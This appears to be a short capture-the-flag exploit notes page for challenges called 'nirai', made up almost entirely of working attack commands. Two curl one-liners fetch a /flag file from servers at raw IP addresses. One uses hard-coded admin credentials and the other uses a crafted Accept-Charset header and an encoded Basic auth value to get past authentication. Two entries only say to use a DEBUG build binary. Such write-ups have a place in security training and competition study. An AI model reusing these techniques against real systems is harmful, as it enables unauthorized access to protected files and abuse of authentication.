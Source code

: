 # nirai exploits

## nirai-1

```
curl http://45.79.68.96:8000/download?file=/flag -u "nirai_admin:G27E3FCGFGE5D37DC3G78733:FE69G37" -v
```

## nirai-2

Use the DEBUG build binary of nirai-cpp.

## nirai-3

Use the DEBUG build binary of nirai-cpp.

## nirai-4

```
curl http://96.126.113.96:8000/download?file=/flag -H "Accept-Charset: ISO-2022-CN-EXT" -H "Authorization: Basic 47S9IOO0vSDjtL0g47S9IDphYmNkZWZnaA=="
```
